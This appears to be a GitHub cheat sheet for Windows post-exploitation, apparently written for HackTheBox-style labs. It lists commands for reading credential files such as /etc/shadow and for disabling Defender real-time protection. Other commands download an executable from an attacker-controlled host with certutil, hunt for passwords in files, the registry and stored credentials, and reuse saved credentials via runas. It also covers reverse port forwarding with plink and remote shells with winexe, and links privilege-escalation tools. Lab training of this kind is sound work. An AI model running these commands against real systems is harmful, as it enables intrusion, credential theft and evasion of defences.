 ### Command Reference
| Description | Unix | CMD | Powershell |
| -- | -- | -- | -- |
| User Logged in | whoami | echo %username% | $env:username|
| | | | [System.Security.Principal.WindowsIdentity]::GetCurrent().Name |
| Change Directory | cd \<path\> | cd \<path\> | Set-Location \<path\> |
| Lis the directory | ls | dir | Get-ChildItem |
| View file contents | cat \<file\> | type \<file\> | Get-Content \<file\> |
| Move files | mv \<file.org\> \<file.mov\> | move \<file.org\> \<file.mov\> | Move-Item \<file.org\> \<file.mov\> |
| Clear Screen | clear | cls | Clear-Host |
| Copy files | cp \<file.org\> \<file.cpy\> | copy \<file.org\> \<file.cpy\> | Copy-Item \<file.org\> \<file.cpy\> | 
| Delete files | rm \<file\> | del \<file\> | Remove-Item \<file\>|
| Web Requests | curl \<url\> | | Invoke-WebRequest \<url\> |
| Supress Error messages | cd /Windows32/System 2>/dev/null | cat /etc/shadow 2>nul | Get-Content /etc/passwd -ErrorAction SilentlyContinue |

### Network monitoring

```bash
# network modules info and IPs
ifconfig
ipaddr
# shows the tcp connection
netstat -antp     
ss -antp  
#netstat -ano ; 0.0.0.0:445 = implies, SMB service is running within the machine and not open for others
#so it is best to perform port forwading and checking those services locally
# windows
netstat -antp 
ipconfig        
```

### Windows Post Exploit
### Powershell 
![powershell](https://github.com/cyberwr3nch/hackthebox/blob/master/scripts/files/powershell.png)
#### Get to know the current user, which you are logged in 

```powershell
# system_name\user_name
[System.Security.Principal.WindowsIdentity]::GetCurrent().Name

# user name & system name
$env:UserName
$env:UserDomain

# find exe's in the current directory
# -erroraction 'silentlycontinue' similar to 2>/dev/null
Get-ChildItem -Filter "*.exe" -Recurse -erroraction 'silentlycontinue' 
```

#### Disable RealTimeProtection

```powershell
#disables real time protection
Set-MpPreference -DisableRealtimeMonitoring $true

#enables real time protection
Set-MpPreference -DisableRealtimeMonitoring $false
```

### CMD Commands

#### Normal CMD

```powershell
# get current username
whoami

# get system information
systeminfo

# wget for windows
certutil -urlcache -f http://iamserver:port/xxxx.exe xxxx.exe

# grep() for os name
systeminfo | findstr /C:"OS Name"

# locate() for files
findstr /si password *.txt *.ini *.config *.xml *.bat

# locate *.exe's
dir /s /b *.exe
where *.exe

# get the hostname
hostname

# know the priviledges we have
# token impresonate attacks can be donw with this privs
whoami /priv

# know all the users in the machine
net user 

# Obtain information about the specific user
net user <username>

# Obtain users belongs to a specific groups
# users belonging to the sudo groups
net localgroup administrators / <group name>

# get to know network
ipconfig
ipconfig /all

# internal network services
netstat -ano 

# get to know antivirus
sc query windefend	#know about windows defender status (up / down)
sc queryex type= service #brings all the running services in the machine

# get to know about the firewall 
netsh show firewall state

# Search for passwords in registry
reg query HKLM /f password /t REG_SZ /s

# port forward using plink.exe -l user -pw password for the user 
plink -l root -pw <pass> -R PORT:127.0.0.1:PORT 10.10.x.x

# search for binaries in the machine, like whereis in linux
# rn searching for powershell.exe in C:\Window\System32
where /R C:\windows\System32 powershell.exe

# look for stored credentials in the machine
cmdkey /list 

# run as commands, when the creds for the user is stored which can be confirmed with cmdkey /list
runas.exe /user:domain\UserName /savecred "C:\Windows\System32\cmd.exe /c Type C:\Users\UserName\Desktop\(user|root).txt > C:\Users\lowUser\root.txt"


```

#### CMD commands when wmic is available

```powershell
# updation list
wmic qfc get Caption,Description,HotFixID,InstalledOn

# list disks with wmic
wmic logicaldisk get caption,description,providenBane

```

#### When Port forwarding:

- In the linux machine

```bash
# check ssh installation
sudo apt install ssh
# for a normal user, the ssh login will be smooth 
# for a root user, edit the sshd.config
# change from #PermitRootLogin prohibit-password -> PermitRootLogin yes
vi /etc/ssh/sshd_config
# start the ssh service
sudo service ssh start
# check the port forwarded service
netstat -ano
# after forwading the port, if user creds are available try winexe, 127.0.0.1 is given since the particular port is forwarded to out local machine
winexe -U Administrator%<pass> //127.0.0.1 "cmd.exe"

```

#### Resource

##### \*.exe

- [winPEAS.exe]("https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS")
- [Seatbelt.exe]("https://github.com/GhostPack/Seatbelt")
- [Watson.exe]("https://github.com/rasta-mouse/Watson")
- [SharpUp.exe]("https://github.com/GhostPack/SharpUp")

##### \*.ps1

- [Sherlock.ps1]("https://github.com/rasta-mouse/Sherlock")
- [PowerUp.ps1]("https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp")
- [Jaws-enum.ps1]("https://github.com/411Hall/JAWS")
- [PowerUp.ps1]("https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1")

##### Misc

- [Windows-exploit-suggester.py]("https://github.com/AonCyberLabs/Windows-Exploit-Suggester")
- [Windows-Kernal-exploits]("https://github.com/SecWiki/windows-kernal-exploits")
- [CVE's]("https://github.com/nomi-sec/PoC-in-GitHub")
- [winexe]("https://tools.kali.org/maintaining-access/winexe")
- [PsExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py")
- [SmbExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py")
- [WmiExec]("https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py")
- [Impersonate PrivEsc]("https://github.com/gtworek/Priv2Admin")
